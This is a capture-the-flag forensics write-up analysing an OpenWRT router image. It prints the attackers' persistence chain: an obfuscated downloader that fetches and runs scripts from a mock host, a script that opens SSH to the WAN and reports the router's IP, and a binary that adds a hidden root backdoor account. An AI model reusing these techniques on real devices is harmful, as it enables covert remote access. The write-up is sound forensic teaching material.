



HackTheBox University CTF 2023 - ZombieNet
The second forensics challenge for HackTheBox University CTF 2023 was called ZombieNet. It gave participants an image of an OpenWRT router, and asked them to determine how the attackers were maintaining persistent access to the device. This post will walk through the steps I took to solve the challenge.
Background
HackTheBox University CTF maintained the zombie invasion theme throughout most of its challenges in 2023, and this was no exception. The challenge description read:
There was an attack on the NOC (Network Operations Center) of Hackster University and as a result, a large number of Network devices were compromised! After successfully fending off the attack the devices were decommissioned and sent off to be inspected. However, there is a strong suspicion among your peers that not all devices were identified! They suspect that the attackers managed to maintain access to the network despite our team's efforts! It's your job to investigate a recently used disk image and uncover how the Zombies maintain their access!
The Image
The image provided was a small disk image file called openwrt-ramips-mt7621-xiaomi_mi-router-4a-gigabit-squashfs-sysupgrade.bin.
I first attempted to analyze the image using Autopsy and TheSleuthKit, but they were unable to handle the binary firmware image. I then
used binwalk to extract the contents of the image, and found a full Linux filesystem.
I began manually reviewing the filesystem for anomalies, but with the large number of files and directories within the image, I decided to take a different approach.
The main draw of binwalk is that it has the ability to perform signature scanning on a file - that is, it can search for
magic numbers and other signatures that indicate the presence of a particular file type. That is how it was able to retrieve all of
the above files from the image.
But the binwalk signature scanning capabilities are not limited to just files it finds within the image - it can also
analyze the image itself to determine the signature of the firmware.
Running binwalk without the -e flag will perform a signature scan on the image, and return the results.
As I highlighted in the image, this is a MIPS OpenWrt Linux-5.15.137 image. And from the name of the file, we know the
exact version of OpenWRT that was used to create the image. This is important, because it means we can download the source code for
that version of OpenWRT, and compare the two to determine which changes were made in the image supplied to us. If we can figure out
what is different, the list of potentially malicious files to review will be much smaller.
After a quick Google search, I found the following site: https://openwrt.org/inbox/toh/xiaomi/xiaomi_mi_router_4a_gigabit_edition, which contains a link to a firmware image for this exact same router. The link is:
https://downloads.openwrt.org/releases/23.05.0/targets/ramips/mt7621/openwrt-23.05.0-ramips-mt7621-xiaomi_mi-router-4a-gigabit-squashfs-sysupgrade.bin.
This is close, but not the exact same image. This is version 23.05.0, whereas the image we were given, as indicated by binwalk,
is 23.05.137. Although the link to version 23.05.137 doesn't appear to be listed, I was able to find it by modifying the URL slightly:
Next, I extracted the contents of the two images, and used the diff command with the -r flag to recursively compare
the directories, and the -q to only output the files that were different. Then, I used grep to filter by files that
only appeared in the modified image we were given. The command I used was:
diff -qr _openwrt-image-original/ factory_images/_openwrt-image-factory/ | grep grep "Only in _openwrt"The output of this command was:

There are a number of suspicious files in this list, but one stands out: /etc/rc.d/S95dead-reanimation. This is a startup script
that will be executed when the router boots up; it is clearly not standard, and is also themed like the rest of the CTF.
dead-reanimation
The S95dead-reanimation script is actually an OpenRC startup script, which is a symbolic link that runs another script
whenever the router starts. This is a well known feature of how OpenRC works, but we can confirm it by looking at the contents of the
/etc/rc.d directory:
Let's look at the script this link points to, /etc/init.d/dead-reanimation:
#!/bin/sh /etc/rc.common
START=95
USE_PROCD=1
PROG=/sbin/zombie_runner
start_service() {
procd_open_instance
procd_set_param command $PROG
procd_set_param respawn ${respawn_threshold:-3600} ${respawn_timeout:-5} ${respawn_retry:-5}
procd_close_instance
}
This is simple service script, which runs /sbin/zombie_runner on boot. Let's look at that /sbin/zombie_runner next:
#!/bin/sh
while [ 1 ]; do
/usr/bin/dead-reanimation
sleep 600
done
exit 0
This script is also simple - it runs /usr/bin/dead-reanimation every 10 minutes. When we go to investigate this script, we find
that it is a binary file, which can be seen with the file command:
dead-reanimation binary
We know that the binary is a MIPS32 binary from the output of the file command. The next step is to load it into Ghidra, and
analyze it. Once auto-analysis is complete, we can follow the calls from the entry point to determine what the binary does.
The first interesting function is FUN_00400cf, which looks as follows:
undefined4 FUN_00400cf4(void)
{
int iVar1;
undefined4 local_a8;
undefined4 local_a4;
undefined4 local_a0;
undefined4 local_9c;
undefined4 local_98;
undefined local_94;
undefined4 local_90;
undefined4 local_8c;
undefined4 local_88;
undefined4 local_84;
undefined2 local_80;
undefined auStack_7c [60];
undefined auStack_40 [56];
local_a8 = 0x9a6f65f0;
local_a4 = 0xadf4e47e;
local_a0 = 0x4e937069;
local_9c = 0x8ec5e155;
local_98 = 0x3af55fc1;
local_94 = 0;
local_90 = 0x9a6f65f0;
local_8c = 0xadf4f27e;
local_88 = 0x4a8c4663;
local_84 = 0x9082ea40;
local_80 = 200;
memcpy(auStack_7c,&DAT_00400f74,0x3a);
memcpy(auStack_40,&DAT_00400fb0,0x37);
FUN_00400c04(&local_a8);
FUN_00400c04(&local_90);
FUN_00400c04(auStack_7c);
FUN_00400c04(auStack_40);
iVar1 = access((char *)&local_a8,0);
if (iVar1 == -1) {
FUN_00400b20(auStack_7c,&local_a8);
chmod((char *)&local_a8,0x1ff);
}
iVar1 = access((char *)&local_90,0);
if (iVar1 == -1) {
FUN_00400b20(auStack_40,&local_90);
chmod((char *)&local_90,0x1ff);
}
system((char *)&local_90);
system((char *)&local_a8);
return 0;
}
This is actually a fairly simple reverse, once you dig a little deeper and realize FUN_00400c04
just XORs the input with a key from the program memory, and FUN_00400b20 is just a wrapper for
cURL.
After renaming a few variables and removing some of the Ghidra decompilation artifacts, the function looks like this:
int downloadAndExecute() {
memcpy(file_1,&DAT_00400f74,0x3a);
memcpy(file_2,&DAT_00400fb0,0x37);
xor(&url_1);
xor(&url_2);
xor(file_1);
xor(file_2);
iVar1 = access((char *)&url_1,0);
if (iVar1 == -1) {
curl(file_1,&url_1);
chmod((char *)&url_1,0x1ff);
}
iVar1 = access((char *)&url_2,0);
if (iVar1 == -1) {
curl(file_2,&url_2);
chmod((char *)&url_2,0x1ff);
}
system((char *)&url_2);
system((char *)&url_1);
return 0;
}
Next, I grabbed the contents of the two URLs and files from the memory of the binary, along with the key used to XOR them. I plugged all of them into CyberChef, and got the following results:

The first command (translated) is curl http://configs.router.htb/reanimate.sh_jEzOWMtZTUxOS00 > /tmp/reanimate.sh
The second command (translated) is curl http://configs.router.htb/dead_reanimated_mNmZTMtNjU3YS00 > /tmp/dead_reanimated
I ran both of these commands, and was able to retrieve the two files.
reanimate.sh
The reanimate.sh script looks like this:
#!/bin/sh
WAN_IP=$(ip -4 -o addr show pppoe-wan | awk '{print $4}' | cut -d "/" -f 1)
ROUTER_IP=$(ip -4 -o addr show br-lan | awk '{print $4}' | cut -d "/" -f 1)
CONFIG="config redirect \n\t
option dest 'lan' \n\t
option target 'DNAT' \n\t
option name 'share' \n\t
option src 'wan' \n\t
option src_dport '61337' \n\t
option dest_port '22' \n\t
option family 'ipv4' \n\t
list proto 'tcpudp' \n\t
option dest_ip '${ROUTER_IP}'"
echo -e $CONFIG >> /etc/config/firewall
/etc/init.d/firewall restart
curl -X POST -H "Content-Type: application/json" -b "auth_token=SFRCe1owbWIxM3NfaDR2M19pbmY" -d '{"ip":"'${WAN_IP}'"}' http://configs.router.htb/reanimate
The code creates a firewall rule that redirects traffic from port 61337 to port 22, allowing SSH access to the router from the WAN. It then sends a POST request to http://configs.router.htb/reanimate, with the WAN IP address of the router, presumably to notify the attackers that the router is back online.
If we Base64 decode the auth token, we get HTB{Z0mb13s_h4v3_inf, which is the first half of the flag.
dead_reanimated
The dead_reanimated binary is a MIPS32 binary, just like dead-reanimation. I loaded it into Ghidra, and
began analyzing it. This binary has a main function which Ghidra was able to identify, and it looks like this:
undefined4 main(void)
{
size_t sVar1;
void *pvVar2;
int iVar3;
FILE *pFVar4;
__uid_t _Var5;
passwd *ppVar6;
undefined4 uVar7;
undefined uStack_169;
undefined4 local_168;
undefined auStack_164 [252];
undefined auStack_68 [44];
char acStack_3c [28];
undefined4 local_20;
undefined4 local_1c;
undefined4 local_18;
local_20._0_1_ = 'z';
local_20._1_1_ = 'o';
local_20._2_1_ = 'm';
local_20._3_1_ = 'b';
local_1c._0_1_ = 'i';
local_1c._1_1_ = 'e';
local_1c._2_1_ = '_';
local_1c._3_1_ = 'l';
local_18._0_1_ = 'o';
local_18._1_1_ = 'r';
local_18._2_1_ = 'd';
local_18._3_1_ = '\0';
memcpy(auStack_68,"d2c0ba035fe58753c648066d76fa793bea92ef29",0x29);
memcpy(acStack_3c,&DAT_00400d50,0x1b);
sVar1 = strlen(acStack_3c);
pvVar2 = malloc(sVar1 << 2);
init_crypto_lib(auStack_68,acStack_3c,pvVar2);
iVar3 = curl_easy_init();
if (iVar3 == 0) {
uVar7 = 0xfffffffe;
}
else {
curl_easy_setopt(iVar3,0x2712,"http://callback.router.htb");
curl_easy_setopt(iVar3,0x271f,pvVar2);
curl_easy_perform(iVar3);
curl_easy_cleanup(iVar3);
pFVar4 = fopen("/proc/sys/kernel/hostname","r");
local_168 = 0;
memset(auStack_164,0,0xfc);
sVar1 = fread(&local_168,0x100,1,pFVar4);
fclose(pFVar4);
(&uStack_169)[sVar1] = 0;
iVar3 = strcmp((char *)&local_168,"HSTERUNI-GW-01");
if (iVar3 == 0) {
_Var5 = getuid();
if ((_Var5 == 0) || (_Var5 = geteuid(), _Var5 == 0)) {
ppVar6 = getpwnam((char *)&local_20);
if (ppVar6 == (passwd *)0x0) {
system(
"opkg update && opkg install shadow-useradd && useradd -s /bin/ash -g 0 -u 0 -o -M z ombie_lord"
);
}
pFVar4 = popen("passwd zombie_lord","w");
fprintf(pFVar4,"%s\n%s\n",pvVar2,pvVar2);
pclose(pFVar4);
uVar7 = 0;
}
else {
uVar7 = 0xffffffff;
}
}
else {
uVar7 = 0xffffffff;
}
}
return uVar7;
}
Ghidra does a pretty good job of decompiling this function. First, the function initializes a crypto library, as seen in these lines:
memcpy(auStack_68,"d2c0ba035fe58753c648066d76fa793bea92ef29",0x29);
memcpy(acStack_3c,&DAT_00400d50,0x1b);
sVar1 = strlen(acStack_3c);
pvVar2 = malloc(sVar1 << 2);
init_crypto_lib(auStack_68,acStack_3c,pvVar2);
The third argument to the init_crypto_lib library is then used as an argument to cURL.
curl_easy_setopt(iVar3,0x2712,"http://callback.router.htb");
curl_easy_setopt(iVar3,0x271f,pvVar2);
curl_easy_perform(iVar3);
curl_easy_cleanup(iVar3);
The code then checks to make sure that the hostname of the router is HSTERUNI-GW-01, and that the user is root. It
returns -1 if either of these conditions are not met.
pFVar4 = fopen("/proc/sys/kernel/hostname","r");
local_168 = 0;
memset(auStack_164,0,0xfc);
sVar1 = fread(&local_168,0x100,1,pFVar4);
fclose(pFVar4);
(&uStack_169)[sVar1] = 0;
iVar3 = strcmp((char *)&local_168,"HSTERUNI-GW-01");
if (iVar3 == 0) {
_Var5 = getuid();
if ((_Var5 == 0) || (_Var5 = geteuid(), _Var5 == 0)) {
...
} else {
uVar7 = 0xffffffff;
}
} else {
uVar7 = 0xffffffff;
}
If both of these conditions are met, the code then checks to see if the user zombie_lord exists. If it does not,
it installs the shadow-useradd package, and creates the user. It sets the password to the same value as the crypto
key that was passed to cURL earlier.
ppVar6 = getpwnam((char *)&local_20);
if (ppVar6 == (passwd *)0x0) {
system(
"opkg update && opkg install shadow-useradd && useradd -s /bin/ash -g 0 -u 0 -o -M z ombie_lord"
);
}
pFVar4 = popen("passwd zombie_lord","w");
fprintf(pFVar4,"%s\n%s\n",pvVar2,pvVar2);
pclose(pFVar4);
uVar7 = 0;
The next thing to do is reverse the crypto library, and figure out what the key is. The crypto library is fairly simple, and can be seen below:
undefined4 init_crypto_lib(undefined4 param_1,undefined4 param_2,undefined4 param_3)
{
undefined auStack_110 [260];
key_rounds_init(param_1,auStack_110);
perform_rounds(auStack_110,param_2,param_3);
return 0;
}
undefined4 key_rounds_init(char *param_1,undefined *param_2)
{
byte bVar1;
size_t sVar2;
int iVar3;
undefined *puVar4;
int iVar5;
byte *pbVar6;
int iVar7;
sVar2 = strlen(param_1);
iVar3 = 0;
puVar4 = param_2;
do {
*puVar4 = (char)iVar3;
iVar3 = iVar3 + 1;
puVar4 = param_2 + iVar3;
} while (iVar3 != 0x100);
iVar3 = 0;
iVar5 = 0;
do {
iVar7 = iVar3 % (int)sVar2;
if (sVar2 == 0) {
trap(0x1c00);
}
pbVar6 = param_2 + iVar3;
bVar1 = *pbVar6;
iVar3 = iVar3 + 1;
iVar5 = (int)((int)param_1[iVar7] + (uint)bVar1 + iVar5) % 0x100;
*pbVar6 = param_2[iVar5];
param_2[iVar5] = bVar1;
} while (iVar3 != 0x100);
return 0;
}
undefined4 perform_rounds(int param_1,char *param_2,int param_3)
{
byte bVar1;
size_t sVar2;
byte *pbVar3;
size_t sVar4;
uint uVar5;
uint uVar6;
sVar2 = strlen(param_2);
uVar6 = 0;
uVar5 = 0;
for (sVar4 = 0; sVar4 != sVar2; sVar4 = sVar4 + 1) {
uVar5 = uVar5 + 1 & 0xff;
pbVar3 = (byte *)(param_1 + uVar5);
bVar1 = *pbVar3;
uVar6 = bVar1 + uVar6 & 0xff;
*pbVar3 = *(byte *)(param_1 + uVar6);
*(byte *)(param_1 + uVar6) = bVar1;
*(byte *)(param_3 + sVar4) =
*(byte *)(param_1 + ((uint)bVar1 + (uint)*pbVar3 & 0xff)) ^ param_2[sVar4];
}
return 0;
}
We could go through the trouble of reversing this, but if this is a standard crypto algorithm, we should be able to find it and use a pre-existing implementation.
I plugged the Ghidra decompilation directly into ChatGPT and asked it to identify the algorithm. It returned the following:


Now that we know the encryption algorithm is RC4, we can use a pre-existing implementation to decrypt the key. I grabbed the key and the data to decrypt from the binary, and plugged them into CyberChef:
That got us the second half of the key!
Conclusion
This was a fun multi-step challenge that required a number of different skills to solve. I enjoyed the challenge, and I hope you enjoyed the writeup!